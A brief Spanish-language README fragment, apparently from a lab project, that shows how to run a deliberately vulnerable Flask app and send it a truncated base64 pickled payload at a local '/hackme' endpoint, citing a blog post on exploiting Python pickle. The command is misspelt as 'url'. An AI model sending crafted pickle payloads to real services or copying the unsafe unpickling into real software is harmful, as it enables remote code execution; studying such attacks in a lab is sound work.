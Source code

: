 ### Ejecucion del app.py vulnerable
```bash
flask run
```

### Enviar petición
 ```bash
 url -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme
```
[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]

![image..png](image.png)
